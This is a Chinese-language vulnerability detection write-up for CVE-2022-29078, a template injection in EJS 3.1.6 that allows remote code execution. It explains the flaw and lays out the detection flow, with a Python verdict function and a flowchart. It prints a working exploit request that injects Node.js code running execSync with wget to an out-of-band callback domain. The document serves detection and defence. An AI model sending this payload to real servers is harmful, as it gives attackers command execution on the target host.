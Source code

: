 # Node.js Embedded JavaScript (EJS) 3.1.6 SSTI远程代码执行漏洞（CVE-2022-29078）检测说明

## 漏洞简介

Node.js Embedded JavaScript (EJS) 3.1.6 存在服务端模板注入（SSTI）漏洞，攻击者可通过特定参数注入恶意模板表达式，最终实现远程代码执行，危及系统安全。

## 影响范围

- 产品：EJS (Embedded JavaScript)
- 影响版本：3.1.6
- CVE编号：CVE-2022-29078
- 危害等级：Critical

## 漏洞原理

EJS模板引擎在处理`settings[view options][outputFunctionName]`参数时，未做有效校验，攻击者可覆盖outputFunctionName选项并注入恶意Node.js代码，导致任意命令执行。

## 利用方式与攻击流程

1. 攻击者构造带有SSTI payload的GET请求，利用settings参数注入Node.js命令。
2. 服务器端未对参数进行安全处理，直接传递给模板引擎。
3. 模板引擎执行恶意payload，触发命令执行（如wget外部OAST域名）。
4. 攻击者通过OAST平台（如interactsh）接收到请求，确认漏洞存在。

## 探测原理与流程

### 探测请求的构造

```http
GET /page?id=<随机字符串>&settings[view%20options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('wget http://<oast域名>');s HTTP/1.1
Host: target.com
```

- settings参数注入Node.js命令，尝试让目标服务器主动请求OAST域名。

### 预期响应与交互

- OAST平台收到来自目标的HTTP请求（协议为http）。
- 响应体包含`You are viewing page number`。

### 判定逻辑

```python
def is_vulnerable(interactsh_result, response):
    if 'http' in interactsh_result['protocol'] and 'You are viewing page number' in response.text:
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[发送带SSTI payload的GET请求] --> B[OAST平台接收请求]
    B --> C[接收HTTP响应]
    C --> D{OAST平台收到http请求且响应含特征内容?}
    D -- 否 --> F[非漏洞]
    D -- 是 --> G[判定存在SSTI漏洞]
```

## 参考链接

- [Eslam.io分析](https://eslam.io/posts/ejs-server-side-template-injection-rce/)
- [GitHub PoC](https://github.com/miko550/CVE-2022-29078)
- [EJS官方修复commit](https://github.com/mde/ejs/commit/15ee698583c98dadc456639d6245580d17a24baf)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2022-29078)
- [EJS官方发布页](https://github.com/mde/ejs/releases) 
